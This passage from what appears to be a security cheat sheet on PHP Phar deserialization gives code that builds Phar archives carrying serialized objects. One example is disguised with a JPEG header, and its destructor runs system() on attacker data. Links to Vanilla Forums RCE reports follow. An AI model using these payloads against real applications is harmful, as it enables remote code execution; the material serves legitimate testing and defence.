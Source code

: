     // Delete any existing PHAR archive with that name
    @unlink("poc.phar");

    // Create a new archive
    $poc = new Phar("poc.phar");

    // Add all write operations to a buffer, without modifying the archive on disk
    $poc->startBuffering();

    // Set the stub
    $poc->setStub("<?php echo 'Here is the STUB!'; __HALT_COMPILER();");

    /* Add a new file in the archive with "text" as its content*/
    $poc["file"] = "text";
    // Add the dummy object to the metadata. This will be serialized
    $poc->setMetadata($dummy);
    // Stop buffering and write changes to disk
    $poc->stopBuffering();
    ?>
    ```

* Example of a Phar creation with a `JPEG` magic byte header since there is no restriction on the content of stub.
    ```php
    <?php
    class AnyClass {
        public $data = null;
        public function __construct($data) {
            $this->data = $data;
        }
        
        function __destruct() {
            system($this->data);
        }
    }

    // create new Phar
    $phar = new Phar('test.phar');
    $phar->startBuffering();
    $phar->addFromString('test.txt', 'text');
    $phar->setStub("\xff\xd8\xff\n<?php __HALT_COMPILER(); ?>");

    // add object of any class as meta data
    $object = new AnyClass('whoami');
    $phar->setMetadata($object);
    $phar->stopBuffering();
    ```


## Real World Examples

* [Vanilla Forums ImportController index file_exists Unserialize Remote Code Execution Vulnerability - Steven Seeley](https://hackerone.com/reports/410237)
* [Vanilla Forums Xenforo password splitHash Unserialize Remote Code Execution Vulnerability - Steven Seeley](https://hackerone.com/reports/410212)
* [Vanilla Forums domGetImages getimagesize Unserialize Remote Code Execution Vulnerability (critical) - Steven Seeley](https://hackerone.com/reports/410882)
* [Vanilla Forums Gdn_Format unserialize() Remote Code Execution Vulnerability - Steven Seeley](https://hackerone.com/reports/407552)
